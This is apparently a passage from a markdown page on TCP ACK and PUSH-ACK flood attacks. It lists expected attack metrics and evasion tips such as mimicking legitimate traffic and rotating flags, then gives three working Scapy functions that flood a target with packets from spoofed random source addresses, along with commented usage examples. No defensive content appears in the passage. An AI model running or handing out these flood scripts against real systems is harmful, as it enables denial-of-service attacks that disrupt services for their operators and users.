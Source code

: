 ```bash
```

## 📈 Attack Metrics
- **Packet Rate**: 5,000-50,000 packets/sec
- **CPU Impact**: 40-80% utilization increase
- **Memory Impact**: 20-50% buffer usage increase
- **Application Response**: 200-500% latency increase

## 🔄 Advanced Evasion
- **Realistic Payloads**: Include HTTP-like data in PUSH packets
- **Timing Patterns**: Mimic legitimate application traffic
- **Flag Rotation**: Alternate between ACK and PUSH-ACK
- **Size Variation**: Variable packet sizes and payloads
- **Protocol Mimicking**: Craft application-specific data

## 🔬 Attack Analysis
### Scapy Script Examples:
```python
from scapy.all import *
import random
import string

def ack_flood(target_ip, target_port, count=1000):
    """Pure ACK flood attack"""
    for i in range(count):
        src_ip = ".".join(str(random.randint(1,254)) for _ in range(4))
        packet = IP(src=src_ip, dst=target_ip) / \
                 TCP(sport=random.randint(1024,65535), 
                     dport=target_port, flags="A")
        send(packet, verbose=0)

def push_ack_flood(target_ip, target_port, count=1000):
    """PUSH-ACK flood with payload"""
    for i in range(count):
        src_ip = ".".join(str(random.randint(1,254)) for _ in range(4))
        # Generate fake HTTP data
        fake_data = "GET / HTTP/1.1\r\nHost: " + \
                   ''.join(random.choices(string.ascii_letters, k=20)) + \
                   "\r\n\r\n"
        packet = IP(src=src_ip, dst=target_ip) / \
                 TCP(sport=random.randint(1024,65535), 
                     dport=target_port, flags="PA") / fake_data
        send(packet, verbose=0)

def mixed_flag_flood(target_ip, target_port, count=2000):
    """Mixed ACK and PUSH-ACK flood"""
    flags_list = ["A", "PA", "A", "PA", "A"]
    for i in range(count):
        src_ip = ".".join(str(random.randint(1,254)) for _ in range(4))
        flag = random.choice(flags_list)
        packet = IP(src=src_ip, dst=target_ip) / \
                 TCP(sport=random.randint(1024,65535), 
                     dport=target_port, flags=flag)
        send(packet, verbose=0)

# Usage examples
# ack_flood("192.168.1.100", 80, 1000)
# push_ack_flood("192.168.1.100", 80, 1000) 
# mixed_flag_flood("192.168.1.100", 80, 2000)
```
